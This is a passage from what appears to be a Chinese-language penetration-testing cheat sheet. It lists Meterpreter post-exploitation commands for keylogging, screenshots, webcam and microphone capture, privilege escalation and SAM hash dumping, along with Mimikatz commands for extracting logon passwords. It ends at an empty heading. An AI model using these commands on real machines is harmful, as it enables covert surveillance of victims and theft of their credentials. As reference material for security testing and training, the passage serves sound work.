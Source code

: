 ```
    keyscan_dump   获取键盘记录
    keyscan_start  键盘记录开始
    keyscan_stop   键盘记录结束
    screenshot     截图
    setdesktop     控制当前桌面


摄像头控制
=======================

    Command        Description
    -------        -----------
    record_mic     录音x秒
    webcam_chat    开始视频聊天
    webcam_list    摄像头列表
    webcam_snap    通过摄像头拍摄快照
    webcam_stream  通过指定的摄像头播放视频
    play           播放音乐


权限提升命令
======================

    Command       Description
    -------       -----------
    getsystem     尝试提升到system权限.
    hashdump      Dumps the contents of the SAM database


```
#### 读HASH相关:

##### mimikatz(非必须，因为meterpreter自带读Hash命令)
use mimikatz

```
privilege::debug 提升权限
sekurlsa::logonPasswords 抓取密码
```
另如果sell交互有问题

也可以用**processdump** 导到本地来运行**mimikatz**读取密码

参考链接:
[九种姿势运行Mimikatz](https://www.freebuf.com/articles/web/176796.html)

##### 其他工具如Getpass 直接运行

##### meterpreter 脚本
`meterpreter > hashdump`
`meterpreter > run post/windows/gather/smart_hashdump`

#### 常用cmd和powershell命令:
